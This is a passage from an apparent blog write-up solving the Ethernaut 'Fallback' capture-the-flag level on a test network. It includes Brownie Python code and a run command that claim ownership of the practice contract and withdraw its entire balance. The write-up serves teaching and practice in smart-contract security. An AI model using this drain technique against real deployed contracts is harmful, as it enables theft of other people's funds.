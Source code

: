 Finally, **lets withdraw all the money from the contract**

### Reduce the balance of the contract to 0

```
def withdraw_all():
    fallback_contract = interface.Fallback(CONTRACT_ADDRESS)
    print("Withdrawing the funds")
    tx = fallback_contract.withdraw({"from": ACCOUNT})
    print("All the money is withdrow")
    print("The contract has been hacked")
```

**If we do all the steps correctly we should be able to call all this `withdraw` function without problem**, let’s do it.

### Invoking the functions.

I’m invoking all my function in the `main()` entry point.

```
def main():
    contribute()
    hack()
    withdraw_all()
```

Now, in the console **let's run our script.**

```
$ brownie run scripts/hacking.py –network rinkeby
```

**We are specifying the rinkeby network because all the instance of the Ethernaut CTF are deployed in Rinkeby.**

*We should have an log like this:*

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1643936588002/n0LqRBLSB.png)

We made 3 transaction:

1. Calling the contribute method
2. Making a simple transaction to the contract so we can invoke the receive function
3. Calling the withdraw method

**And now our first contract is hacked**, congratulations! :sunglasses: :tada:

We do everything right, **so let’s submit the instance!**, programmatically of course :smirk:

## Submitting the instance

If you see all the output of the browser console there is a contract called `Ethernaut`, which is the main contract that allows us to create new instances and submit those ones.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1643936993877/2GG6wv_yL.png)
